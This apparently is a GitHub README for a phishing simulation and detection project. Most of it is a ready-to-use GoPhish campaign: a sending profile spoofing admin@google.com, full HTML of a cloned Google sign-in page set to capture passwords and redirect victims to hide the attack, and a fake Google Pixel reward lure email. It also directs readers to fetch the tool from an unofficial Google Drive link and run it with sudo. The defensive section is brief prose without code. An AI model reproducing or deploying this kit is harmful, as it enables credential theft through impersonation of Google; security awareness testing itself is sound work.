


# Phishing-Attack-Simulation-and-Detection
## 📌Objective
Simulate phishing attacks to test awareness and implement detection mechanisms (e.g., email filters, fake website detection).
## 🔧Tools
Phishing simulation tools, email security tools, Python.

# Setup Of Simulation Attack
## GoPhish Tool
<div align="center">
  
  <p align="center">
    <b>Figure: Phishing Campaign Tool</b>
  </p>
</div>

Download the Tool From this link 
```
https://drive.google.com/file/d/1-kyDqVMtSWZw7mJ_6coaBP7ENRy4xwbs/view?usp=sharing
```
Extract the Downloaded zip file
```
unzip gophish.zip
```
After Downloaded And You Will See a file [ gophish ] Now make this Executable Use Command
```
chmod +x gophish
```
Run GoPhish
```
sudo ./gophish
```
After that you will see in the Terminal Default 'USERNAME' and 'PASSWORD' to Login the tool, You will instructed after login.

# Setup Campaign in GoPhish
## Step 1. Sending Profile (The SMTP Configuration)
<b>Profile Name: Google Admin</b>

<b>SMTP From: admin@google.com</b>

<b>Host: smtp.gmail.com:587</b>

<b>Username/Password: Your Gmail address and an App Password (not your login password).</b>

<b>Click on Save Profile</b>

## Step 2. Landing Page (The Google Clone)
<b>Name: Login Account</b>

<b>Copy This HTML Login Page Code And Past HTML Editor</b>
```
<!DOCTYPE html><html><head>
    <meta name="viewport" content="width=device-width, initial-scale=1"/>
    <title>Sign in - Google Accounts</title>
    <style>
        body { font-family: 'Arial', sans-serif; background-color: #ffffff; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
        .login-card { border: 1px solid #dadce0; border-radius: 8px; width: 450px; padding: 48px 40px 36px; text-align: center; }
        .logo { width: 75px; margin-bottom: 10px; }
        h1 { font-size: 24px; font-weight: 400; margin-bottom: 10px; color: #202124; }
        p { font-size: 16px; color: #202124; margin-bottom: 24px; }
        input[type="text"], input[type="password"] { width: 100%; padding: 13px 15px; margin: 10px 0; border: 1px solid #dadce0; border-radius: 4px; box-sizing: border-box; font-size: 16px; }
        .btn { background-color: #1a73e8; color: white; padding: 10px 24px; border: none; border-radius: 4px; cursor: pointer; font-weight: 500; font-size: 14px; margin-top: 20px; width: 100%; }
        .footer-text { color: #1a73e8; font-size: 14px; margin-top: 40px; text-align: left; cursor: pointer; }
    </style>
</head>
<body>
    <div class="login-card">
        
        <h1>Sign in</h1>
        <p>Use your Google Account</p>
        
        <form method="POST" action="">
            <input type="text" name="username" placeholder="Email or phone" required=""/>
            <input type="password" name="password" placeholder="Enter your password" required=""/>
            <div style="text-align: left; color: #5f6368; font-size: 14px; margin-top: 5px;">Not your computer? Use Guest mode to sign in privately.</div>
            <button type="submit" class="btn">Next</button>
        </form>
        
        <div class="footer-text">Create account</div>
    </div>

</body></html>
```

<b>Capture Submitted Data: Checked (ON).</b>

<b>Capture Passwords: Checked (ON).</b>

<b>Redirect to: https://accounts.google.com (to hide the attack after the victim "logs in").</b>

## Step 3. Email Template (The Bait)
<b>Name: Reward</b>

<b>Envelope sender: Google Rewards <support@rewards-portal.net></b>

<b>Subject: Claim your Reward: You've been selected for a Google Pixel 10</b>

<b>HTML Code Copy Past</b>
```
<!DOCTYPE html>
<html>
<head>
    <style>
        body { font-family: 'Roboto', Arial, sans-serif; background-color: #f8f9fa; margin: 0; padding: 20px; }
        .container { max-width: 600px; background: white; border: 1px solid #e0e0e0; border-radius: 8px; margin: auto; overflow: hidden; }
        .header { background-color: #ffffff; padding: 20px; text-align: center; border-bottom: 1px solid #f1f1f1; }
        .content { padding: 30px; text-align: center; color: #3c4043; }
        .button { background-color: #1a73e8; color: white !important; padding: 14px 30px; text-decoration: none; border-radius: 4px; font-weight: 500; display: inline-block; margin: 20px 0; }
        .footer { background-color: #f1f3f4; padding: 15px; text-align: center; font-size: 12px; color: #70757a; }
        .logo { width: 92px; height: 30px; }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            
        </div>
        <div class="content">
            <h1 style="font-size: 22px; color: #202124;">Congratulations, {{.FirstName}}!</h1>
            <p>You have been selected as a participant in our 2026 User Loyalty Program.</p>
            <p>Based on your recent activity, you are eligible to claim a <strong>Google Pixel 10</strong> or a <strong>$500 Google Play Credit</strong>.</p>
            
            <a href="{{.URL}}" class="btn button">Claim Your Reward Now</a>
            
            <p style="font-size: 14px; color: #5f6368;">Note: This offer is only valid for the next 24 hours. Verification of your account is required to prevent duplicate claims.</p>
        </div>
        <div class="footer">
            &copy; 2026 Google LLC, 1600 Amphitheatre Parkway, Mountain View, CA 94043<br>
            You received this email because it is a mandatory update regarding your account status.
        </div>
    </div>
{{.Tracker}}</body>
</html>
```

<b>Now CLick ON Save Template</b>

## Step 4. Users & Groups Configurations
<b>Name: camp one group

<b>Add First Name, Last Name, Email and Position</b>

<b>At Least Email Address for Sent</b>

<b>Click On Add Button and Than Save Changes</b>


## Now You Are Ready to Create Campaigns
<b>Click New Campaign Button</b>

<b>Name: Reward Campaign</b>

<b>Email Template: Reward ( We Recently Configured in the Email Templates )</b>

<b>Landing Page: Login Account</b>

<b>URL: http://your-ip-address/</b>

<b>Launch Date: Set Campaign Launch Date And Time</b>

<b>Sending Profile: Google Admin ( Also We Recently Configured in the Sending profiles )</b>

<b>Groups: camp one group</b>

<b>Now Click on Launch Campaign</b>
# Watch Full Credentials Submition Demo
## After Launch The Attack You Will see How your Credentials Actually Grap by the Attackers.
[](https://drive.google.com/file/d/19o2M197LGPKZLaKogFU3huoG1ZGFcIPj/view?usp=sharing)


# The Detection (The Defense)
## 📈 Phase 3: Advanced Security Actions
<b>Since your objective is to "implement detection mechanisms,"  Demonstrated Automated Incident Response. When This script finds a 70+ score</b>

<b>Auto-Quarantine: Move the email to Spam folder.</b>

<b>IOC Extraction: Extract the "Indicators of Compromise" (the malicious sender's IP and the phishing URL).</b>

<b>Blacklisting: Append these IOCs to a blacklist.txt file that the script checks before processing new mail.</b>

<div align="center">
  
  <p align="center">
    <b>Figure: Gmail Inbox Scan Demo</b>
  </p>
</div>

